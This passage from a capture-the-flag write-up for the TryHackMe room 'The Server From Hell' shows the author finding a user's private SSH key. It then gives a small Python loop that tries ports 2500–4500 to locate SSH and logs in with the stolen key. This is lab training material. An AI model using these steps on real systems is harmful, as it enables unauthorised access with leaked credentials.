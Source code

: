 Now, **we found a username called `hades`, and his private SSH key!**

```
┌──(root🌸siunam)-[~/…/The-Server-From-Hell/home/hades/.ssh]
└─# cat hint.txt       
2500-4500
```

**flag.txt:**
```
┌──(root🌸siunam)-[~/…/The-Server-From-Hell/home/hades/.ssh]
└─# cat flag.txt   
thm{Redacted}
```

# Initial Foothold

**In the `hint.txt`, it indicacts that the SSH service is opened at range from 2500 to 4500!**

**Again, we can write a [simple python script](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Server-From-Hell/ssh_enum.py) to find which port is the SSH service:**
```py
#!/usr/bin/env python3

import os

rhost = '10.10.184.23'

for port in range(2500, 4500):
   os.system(f'ssh -i ./home/hades/.ssh/id_rsa hades@{rhost} -p {port}')
```

**Output:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Server-From-Hell]
└─# python3 ssh_enum.py
[...]
kex_exchange_identification: read: Connection reset by peer
Connection reset by 10.10.184.23 port 3332
The authenticity of host '[10.10.184.23]:3333 ([10.10.184.23]:3333)' can't be established.
ED25519 key fingerprint is SHA256:Zj1jn6b0042OHU6nvWMtd/PCNk57yPlHaXTatTQuKuQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? 
```

Found it! **The SSH service is on port 3333.**

**We now can `ssh` into user `hades` with the private SSH key! :D**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Server-From-Hell]
└─# ssh -i ./home/hades/.ssh/id_rsa hades@$RHOSTS -p 3333
[...]
 ██░ ██ ▓█████  ██▓     ██▓    
▓██░ ██▒▓█   ▀ ▓██▒    ▓██▒    
▒██▀▀██░▒███   ▒██░    ▒██░    
░▓█ ░██ ▒▓█  ▄ ▒██░    ▒██░    
░▓█▒░██▓░▒████▒░██████▒░██████▒
 ▒ ░░▒░▒░░ ▒░ ░░ ▒░▓  ░░ ▒░▓  ░
 ▒ ░▒░ ░ ░ ░  ░░ ░ ▒  ░░ ░ ▒  ░
 ░  ░░ ░   ░     ░ ░     ░ ░   
 ░  ░  ░   ░  ░    ░  ░    ░  ░
                               
 Welcome to hell. We hope you enjoy your stay!
 irb(main):001:0> 
```
